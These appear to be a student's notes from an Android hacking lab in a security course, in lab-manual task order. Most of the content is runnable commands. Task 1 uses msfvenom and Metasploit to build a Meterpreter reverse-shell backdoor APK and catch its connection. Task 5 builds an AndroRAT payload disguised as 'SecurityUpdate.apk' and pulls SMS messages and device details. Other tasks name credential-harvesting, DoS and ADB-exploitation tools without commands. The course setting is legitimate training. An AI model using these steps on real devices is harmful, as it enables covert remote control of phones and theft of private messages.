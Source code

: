 ## Hack an Android Device by Creating Binary Payloads using Parrot Security
---
1. msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=10.10.1.13 R > Desktop/Backdoor.apk
2. cp /root/Desktop/Backdoor.apk /var/www/html/share/
3. msfconsole
4. use exploit/multi/handler
5. set payload android/meterpreter/reverse_tcp
6. set LHOST 10.10.1.13
7. exploit -j -z
8. install app on android 
9. sysinfo
10. ipconfig
11. pwd
12. cd /sdcard  `i.e /storage/emulated/0`
13. ps
**Lab Manual 4 - Page - 1843**

## Task 2: Harvest Users' Credentials using the Social-Engineer
---
**LAB Manual 4 - Page - 1856**
1. setoolkit


## Task 3: Launch a DoS Attack on a Target machine using Low Orbit Ion Cannon (LOIC) on the Android Mobile Platform
---
**LAB Manual 4 - Page - 1866**


## Task 4: Exploit the Android Platform through ADB using PhoneSploit
---
**LAB Manual 4 - Page - 1874**

![[Pasted image 20241028015641.png]]
![[Pasted image 20241028015659.png]]
![[Pasted image 20241028015712.png]]


## Task 5: Hack an Android Device by Creating APK File using AndroRat
---
**LAB Manual 4 : Page .1888**
1. python3 androRAT.py --build -i 10.10.1.12 -p 4444 -o SecurityUpdate.apk
2. install this apk in android
3. python3 androRAT.py --shell -i 0.0.0.0 -p 4444
4. help
5. deviceInfo
6. getSMS inbox
7. getMACAddress
8. exit


# LAB 2 Secure Android Devices using Various Android Security Tools
---
## Task 1: Analyze a Malicious App using Online Android Analyzers
---
**LAB Manual 4 : Page .1898**


## Task 2: Secure Android Devices from Malicious Apps using Malwarebytes Security
---
**LAB Manual 4 : Page .1903**